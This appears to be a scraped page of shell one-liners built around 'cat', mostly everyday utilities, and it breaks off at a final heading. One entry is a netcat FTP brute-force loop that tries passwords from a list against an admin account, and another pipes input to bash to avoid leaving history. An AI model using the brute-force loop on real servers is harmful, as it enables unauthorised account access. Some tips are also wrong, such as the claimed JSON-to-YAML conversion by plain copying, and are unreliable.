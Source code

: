 ##### Convert JSON to YAML

   cat  data.json >data.yml

##### Easily find an old command you run

   cat  .bash_history | tail -100 | grep {command}

##### Create a iso from the disk.

   cat  /dev/cdrom > ~/mydisk.iso

##### display a tab separated file as columns

   cat  <file>|column -t

##### merge vob files to mpg

   cat  VTS_05_1.VOB VTS_05_2.VOB VTS_05_3.VOB VTS_05_4.VOB > mergedmovie.mpg

##### execute your commands and avoid history records

   cat  | bash

##### Compress blank lines

   cat  -s

##### concat multiple videos into one (and add an audio track)

   cat  frame/*.mpeg | ffmpeg -i $ID.mp3 -i - -f dvd -y track/$ID.mpg 2>/dev/null

##### Limit the transfer rate and size of data over a pipe

   cat  /dev/urandom | pv -L 3m | dd bs=1M count=100 iflag=fullblock > /dev/null

##### Netcat ftp brute force

   cat  list|while read lines;do echo "USER admin">ftp;echo "PASS $lines">>ftp;echo "QUIT">>ftp;nc 192.168.77.128 21 <ftp>ftp2;echo "trying: $lines";cat ftp2|grep "230">/dev/null;[ "$?" -eq "0" ]&& echo "pass: $lines" && break;done

##### Are there any words in the English language that use at least half of the alphabet without repeating any letters?

   cat  /usr/share/dict/words | egrep '^\w{13,}$' | egrep -iv '(\w).*\1'

##### Merge tarballs

   cat  1.tar.gz 2.tar.gz > 3.tar.gz; tar zxvfi 3.tar.gz

##### Copy your SSH public key on a remote machine for passwordless login.

   cat  ~/.ssh/*.pub | ssh user@remote-system 'umask 077; cat >>.ssh/authorized_keys'

##### Plot frequency distribution of words from files on a terminal.

